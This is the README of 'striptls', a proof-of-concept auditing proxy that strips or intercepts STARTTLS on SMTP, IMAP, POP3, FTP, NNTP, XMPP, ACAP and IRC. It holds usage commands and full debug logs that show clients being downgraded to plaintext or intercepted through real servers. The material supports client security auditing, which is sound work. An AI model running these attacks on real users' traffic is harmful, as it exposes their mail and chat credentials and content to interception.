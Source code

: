 striptls - auditing proxy
=========================

poc implementation of STARTTLS stripping attacks

-  SMTP
-  SMTP.StripFromCapabilities - server response capability patch
-  SMTP.StripWithInvalidResponseCode - client STARTTLS stripping,
   invalid response code
-  SMTP.UntrustedIntercept - STARTTLS interception (client and server
   talking ssl) (requires server.pem in pwd)
-  SMTP.StripWithTemporaryError
-  SMTP.StripWithError
-  SMTP.ProtocolDowngradeStripExtendedMode
-  SMTP.InjectCommand
-  POP3
-  POP3.StripFromCapabilities
-  POP3.StripWithError
-  POP3.UntrustedIntercept
-  IMAP
-  IMAP.StripFromCapabilities
-  IMAP.StripWithError
-  IMAP.UntrustedIntercept
-  IMAP.ProtocolDowngradeToV2
-  FTP
-  FTP.StripFromCapabilities
-  FTP.StripWithError
-  FTP.UntrustedIntercept
-  NNTP
-  NNTP.StripFromCapabilities
-  NNTP.StripWithError
-  NNTP.UntrustedIntercept
-  XMPP
-  XMPP.StripFromCapabilities
-  XMPP.StripInboundTLS
-  XMPP.UntrustedIntercept
-  ACAP (untested)
-  ACAP.StripFromCapabilities
-  ACAP.StripWithError
-  ACAP.UntrustedIntercept
-  IRC
-  IRC.StripFromCapabilities
-  IRC.StripWithError
-  IRC.UntrustedIntercept
-  IRC.StripWithNotRegistered
-  IRC.StripCAPWithNotregistered
-  IRC.StripWithSilentDrop

Results:

::

    - [*] client: 127.0.0.1
    -     [Vulnerable!] <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    -     [Vulnerable!] <class striptls.StripWithTemporaryError at 0xffd4611c>
    -     [           ] <class striptls.StripFromCapabilities at 0xffd316bc>
    -     [Vulnerable!] <class striptls.StripWithError at 0xffd4614c>
    - [*] client: 192.168.139.1
    -     [Vulnerable!] <class striptls.StripInboundTLS at 0x7f08319a6808>
    -     [Vulnerable!] <class striptls.StripFromCapabilities at 0x7f08319a67a0>
    -     [Vulnerable!] <class striptls.UntrustedIntercept at 0x7f08319a6870>

Usage
-----

::

    #> python -m striptls --help    # from pip/setup.py
    #> python striptls --help       # from source / root folder
        Usage: striptls.py [options]

               example: striptls.py --listen 0.0.0.0:25 --remote mail.server.tld:25


        Options:
          -h, --help            show this help message and exit
          -v, --verbose         make lots of noise [default]
          -l LISTEN, --listen=LISTEN
                                listen ip:port [default: 0.0.0.0:<remote_port>]
          -r REMOTE, --remote=REMOTE
                                remote target ip:port to forward sessions to
          -k KEY, --key=KEY     SSL Certificate and Private key file to use, PEM
                                format assumed [default: server.pem]
          -x VECTORS, --vectors=VECTORS
                                Comma separated list of vectors. Use 'ALL' (default)
                                to select all vectors. Available vectors:
                                ACAP.StripFromCapabilities, ACAP.StripWithError,
                                ACAP.UntrustedIntercept, FTP.StripFromCapabilities,
                                FTP.StripWithError, FTP.UntrustedIntercept,
                                IMAP.ProtocolDowngradeToV2,
                                IMAP.StripFromCapabilities, IMAP.StripWithError,
                                IMAP.UntrustedIntercept,
                                IRC.StripCAPWithNotRegistered,
                                IRC.StripFromCapabilities, IRC.StripWithError,
                                IRC.StripWithNotRegistered, IRC.StripWithSilentDrop,
                                IRC.UntrustedIntercept, NNTP.StripFromCapabilities,
                                NNTP.StripWithError, NNTP.UntrustedIntercept,
                                POP3.StripFromCapabilities, POP3.StripWithError,
                                POP3.UntrustedIntercept, SMTP.InboundStarttlsProxy,
                                SMTP.InjectCommand,
                                SMTP.ProtocolDowngradeStripExtendedMode,
                                SMTP.StripFromCapabilities, SMTP.StripWithError,
                                SMTP.StripWithInvalidResponseCode,
                                SMTP.StripWithTemporaryError, SMTP.UntrustedIntercept,
                                XMPP.StripFromCapabilities, XMPP.StripInboundTLS,
                                XMPP.UntrustedIntercept [default: ALL]

Install (optional)
------------------

from pip

::

    #> pip install striptls

from source

::

    #> setup.py install

Examples
--------

::

                      inbound                    outbound
    [inbound_peer]<------------->[listen:proxy]<------------->[outbound_peer/target]
      smtp-client                   striptls                    remote/target
      

local ``smtp-client`` -> ``localhost:8825`` (proxy) ->
``mail.gmx.net:25``

Audit Mode
~~~~~~~~~~

iterates all protocol specific cases on a per client basis and keeps
track of clients violating the starttls protocol. Ctrl+C to abort audit
and print results.

::

    #> python striptls --listen localhost:8825 --remote=mail.gmx.net:25
    2016-02-02 22:11:56,275 - INFO     - <Proxy 0xffcf6d0cL listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.StripFromCapabilities at 0xffd4632c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.StripWithError at 0xffd4635c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.UntrustedIntercept at 0xffd4638c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.StripFromCapabilities at 0xffd4626c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.StripWithError at 0xffd4629c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.UntrustedIntercept at 0xffd462cc>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.StripFromCapabilities at 0xffd463ec>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.StripWithError at 0xffd4641c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.UntrustedIntercept at 0xffd4644c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:110  , proto:    POP3): <class striptls.StripWithError at 0xffd461dc>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:110  , proto:    POP3): <class striptls.UntrustedIntercept at 0xffd4620c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripFromCapabilities at 0xffd316bc>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithError at 0xffd4614c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithTemporaryError at 0xffd4611c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.UntrustedIntercept at 0xffd4617c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:5222 , proto:    XMPP): <class striptls.StripFromCapabilities at 0xffd464ac>
    2016-02-02 22:11:56,276 - INFO     - <RewriteDispatcher vectors={5222: set([<class striptls.StripFromCapabilities at 0xffd464ac>]), 110: set([<class striptls.UntrustedIntercept at 0xffd4620c>, <class striptls.StripWithError at 0xffd461dc>]), 143: set([<class striptls.StripWithError at 0xffd4629c>, <class striptls.UntrustedIntercept at 0xffd462cc>, <class striptls.StripFromCapabilities at 0xffd4626c>]), 21: set([<class striptls.UntrustedIntercept at 0xffd4638c>, <class striptls.StripFromCapabilities at 0xffd4632c>, <class striptls.StripWithError at 0xffd4635c>]), 119: set([<class striptls.StripWithError at 0xffd4641c>, <class striptls.UntrustedIntercept at 0xffd4644c>, <class striptls.StripFromCapabilities at 0xffd463ec>]), 25: set([<class striptls.StripWithInvalidResponseCode at 0xffd3138c>, <class striptls.StripWithTemporaryError at 0xffd4611c>, <class striptls.StripFromCapabilities at 0xffd316bc>, <class striptls.StripWithError at 0xffd4614c>, <class striptls.UntrustedIntercept at 0xffd4617c>])}>
    2016-02-02 22:12:08,477 - DEBUG    - <ProtocolDetect 0xffcf6eccL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:08,530 - INFO     - <Session 0xffcf6e4cL> client ('127.0.0.1', 28902) has connected
    2016-02-02 22:12:08,530 - INFO     - <Session 0xffcf6e4cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:08,805 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '220 gmx.com (mrgmx001) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:08,805 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithInvalidResponseCode new: True>
    2016-02-02 22:12:09,759 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:09,850 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:09,851 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:09,867 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'STARTTLS\r\n'
    2016-02-02 22:12:09,867 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server][mangled] '200 STRIPTLS\r\n'
    2016-02-02 22:12:09,867 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server][mangled] None
    2016-02-02 22:12:09,883 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-02-02 22:12:09,983 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '530 Authentication required\r\n'
    2016-02-02 22:12:09,992 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'rset\r\n'
    2016-02-02 22:12:10,100 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '250 OK\r\n'
    2016-02-02 22:12:10,116 - WARNING  - <Session 0xffcf6e4cL> terminated.
    2016-02-02 22:12:13,056 - DEBUG    - <ProtocolDetect 0xffd0920cL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:13,056 - INFO     - <Session 0xffd0918cL> client ('127.0.0.1', 28905) has connected
    2016-02-02 22:12:13,057 - INFO     - <Session 0xffd0918cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:13,241 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:13,241 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithTemporaryError new: True>
    2016-02-02 22:12:14,197 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:14,289 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:14,304 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'STARTTLS\r\n'
    2016-02-02 22:12:14,305 - DEBUG    - <Session 0xffd0918cL> [client] <= [server][mangled] '454 TLS not available due to temporary reason\r\n'
    2016-02-02 22:12:14,305 - DEBUG    - <Session 0xffd0918cL> [client] => [server][mangled] None
    2016-02-02 22:12:14,320 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-02-02 22:12:14,411 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '530 Authentication required\r\n'
    2016-02-02 22:12:14,415 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'rset\r\n'
    2016-02-02 22:12:14,520 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '250 OK\r\n'
    2016-02-02 22:12:14,535 - WARNING  - <Session 0xffd0918cL> terminated.
    2016-02-02 22:12:16,649 - DEBUG    - <ProtocolDetect 0xffd092ecL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:16,650 - INFO     - <Session 0xffd0926cL> client ('127.0.0.1', 28908) has connected
    2016-02-02 22:12:16,650 - INFO     - <Session 0xffd0926cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:16,820 - DEBUG    - <Session 0xffd0926cL> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:16,820 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripFromCapabilities new: True>
    2016-02-02 22:12:17,760 - DEBUG    - <Session 0xffd0926cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:17,849 - DEBUG    - <Session 0xffd0926cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:17,849 - DEBUG    - <Session 0xffd0926cL> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
    2016-02-02 22:12:17,871 - WARNING  - <Session 0xffd0926cL> terminated.
    2016-02-02 22:12:20,071 - DEBUG    - <ProtocolDetect 0xffd093ccL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:20,072 - INFO     - <Session 0xffd0934cL> client ('127.0.0.1', 28911) has connected
    2016-02-02 22:12:20,072 - INFO     - <Session 0xffd0934cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:20,239 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:20,240 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithError new: True>
    2016-02-02 22:12:21,181 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:21,269 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:21,280 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'STARTTLS\r\n'
    2016-02-02 22:12:21,281 - DEBUG    - <Session 0xffd0934cL> [client] <= [server][mangled] '501 Syntax error\r\n'
    2016-02-02 22:12:21,281 - DEBUG    - <Session 0xffd0934cL> [client] => [server][mangled] None
    2016-02-02 22:12:21,289 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-02-02 22:12:21,381 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '530 Authentication required\r\n'
    2016-02-02 22:12:21,386 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'rset\r\n'
    2016-02-02 22:12:21,469 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '250 OK\r\n'
    2016-02-02 22:12:21,485 - WARNING  - <Session 0xffd0934cL> terminated.
    2016-02-02 22:12:23,665 - WARNING  - Ctrl C - Stopping server
    2016-02-02 22:12:23,665 - INFO     -  -- audit results --
    2016-02-02 22:12:23,666 - INFO     - [*] client: 127.0.0.1
    2016-02-02 22:12:23,666 - INFO     -     [Vulnerable!] <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    2016-02-02 22:12:23,666 - INFO     -     [Vulnerable!] <class striptls.StripWithTemporaryError at 0xffd4611c>
    2016-02-02 22:12:23,666 - INFO     -     [           ] <class striptls.StripFromCapabilities at 0xffd316bc>
    2016-02-02 22:12:23,666 - INFO     -     [Vulnerable!] <class striptls.StripWithError at 0xffd4614c>

Strip STARTTLS from server capabilities
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.StripFromCapabilities
    2016-01-31 15:44:35,000 - INFO     - <Proxy 0x1fe6e70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-01-31 15:44:35,000 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripFromCapabilities at 0x01FE77D8>])}>
    2016-01-31 15:44:37,030 - DEBUG    - <ProtocolDetect 0x1fe6f90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-01-31 15:44:37,032 - INFO     - <Session 0x1fe6f10> client ('127.0.0.1', 20070) has connected
    2016-01-31 15:44:37,032 - INFO     - <Session 0x1fe6f10> connecting to target ('mail.gmx.net', 25)
    2016-01-31 15:44:39,051 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-01-31 15:44:40,335 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
    2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-01-31 15:44:41,292 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '530 Authentication required\r\n'
    2016-01-31 15:44:41,292 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'rset\r\n'
    2016-01-31 15:44:41,605 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250 OK\r\n'
    2016-01-31 15:44:41,612 - WARNING  - <Session 0x1fe6f10> terminated.

Invalid STARTTLS response code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.StripWithInvalidResponseCode
    2016-01-31 15:42:40,325 - INFO     - <Proxy 0x1fefe70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-01-31 15:42:40,325 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripWithInvalidResponseCode at 0x02010730>])}>
    2016-01-31 15:43:19,755 - DEBUG    - <ProtocolDetect 0x1feff90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-01-31 15:43:19,756 - INFO     - <Session 0x1feff10> client ('127.0.0.1', 20061) has connected
    2016-01-31 15:43:19,756 - INFO     - <Session 0x1feff10> connecting to target ('mail.gmx.net', 25)
    2016-01-31 15:43:21,473 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-01-31 15:43:22,395 - DEBUG    - <Session 0x1feff10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:43:23,019 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-01-31 15:43:23,019 - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server]          'STARTTLS\r\n'
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '200 STRIPTLS\r\n'
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server][mangled] None
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-01-31 15:43:23,160 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '530 Authentication required\r\n'
    2016-01-31 15:43:23,160 - DEBUG    - <Session 0x1feff10> [client] => [server]          'rset\r\n'
    2016-01-31 15:43:23,269 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250 OK\r\n'
    2016-01-31 15:43:23,285 - WARNING  - <Session 0x1feff10> terminated.

Untrusted SSL Intercept (for clients not checking server cert trust)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.UntrustedIntercept
    2016-01-31 15:59:02,417 - INFO     - <Proxy 0x1f468f0 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-01-31 15:59:02,417 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.UntrustedIntercept at 0x01F45298>])}>
    2016-01-31 15:59:06,292 - DEBUG    - <ProtocolDetect 0x1f46a10 protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-01-31 15:59:06,293 - INFO     - <Session 0x1f46990> client ('127.0.0.1', 20238) has connected
    2016-01-31 15:59:06,293 - INFO     - <Session 0x1f46990> connecting to target ('mail.gmx.net', 25)
    2016-01-31 15:59:06,561 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
    2016-01-31 15:59:07,500 - DEBUG    - <Session 0x1f46990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:59:07,565 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-01-31 15:59:07,581 - DEBUG    - <Session 0x1f46990> [client] => [server]          'STARTTLS\r\n'
    2016-01-31 15:59:07,581 - DEBUG    - <Session 0x1f46990> [client] <= [server][mangled] '220 Go ahead\r\n'
    2016-01-31 15:59:07,832 - DEBUG    - <Session 0x1f46990> [client] <= [server][mangled] waiting for inbound SSL Handshake
    2016-01-31 15:59:07,832 - DEBUG    - <Session 0x1f46990> [client] => [server]          'STARTTLS\r\n'
    2016-01-31 15:59:07,926 - DEBUG    - <Session 0x1f46990> [client] => [server][mangled] performing outbound SSL handshake
    2016-01-31 15:59:08,219 - DEBUG    - <Session 0x1f46990> [client] => [server][mangled] None
    2016-01-31 15:59:08,219 - DEBUG    - <Session 0x1f46990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:59:08,312 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 69920427\r\n250 AUTH LOGIN PLAIN\r\n'
    2016-01-31 15:59:08,312 - DEBUG    - <Session 0x1f46990> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-01-31 15:59:08,407 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '530 Authentication required\r\n'
    2016-01-31 15:59:08,407 - DEBUG    - <Session 0x1f46990> [client] => [server]          'rset\r\n'
    2016-01-31 15:59:08,469 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250 OK\r\n'
    2016-01-31 15:59:08,484 - WARNING  - <Session 0x1f46990> terminated.

XMPP Audit Trail
~~~~~~~~~~~~~~~~

Example: Pidgin with optional transport security.

XMPP.StripInboundTLS - Inbound Plain - Outbound TLS - in case server requires starttls
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

        python striptls --listen 0.0.0.0:5222 --remote jabber.ccc.de:5222 -k ../server.pem
        2016-02-05 16:53:28,842 - INFO     - <Proxy 0x7f08322ba310 listen=('0.0.0.0', 5222) target=('jabber.ccc.de', 5222)> ready.
        ...
        2016-02-05 16:53:30,401 - DEBUG    - <ProtocolDetect 0x7f083196a810 protocol_id=PROTO_XMPP len_history=0> - protocol detected (target port)
        ...
        2016-02-05 16:53:30,401 - INFO     - <Session 0x7f083196a7d0> client ('192.168.139.1', 56888) has connected
        2016-02-05 16:53:30,402 - INFO     - <Session 0x7f083196a7d0> connecting to target ('jabber.ccc.de', 5222)
        2016-02-05 16:53:30,923 - DEBUG    - <Session 0x7f083196a7d0> [client] => [server]          "<?xml version='1.0' ?><stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        2016-02-05 16:53:30,925 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripInboundTLS new: True>
        2016-02-05 16:53:31,005 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='13821701589972978594' from='jabber.ccc.de' version='1.0' xml:lang='en'>"
        2016-02-05 16:53:31,009 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'><required/></starttls></stream:features>"
        2016-02-05 16:53:31,012 - DEBUG    - <Session 0x7f083196a7d0> [client] => [server][mangled] "<starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        2016-02-05 16:53:31,069 - DEBUG    - <Session 0x7f083196a7d0> [client] => [server][mangled] performing outbound SSL handshake
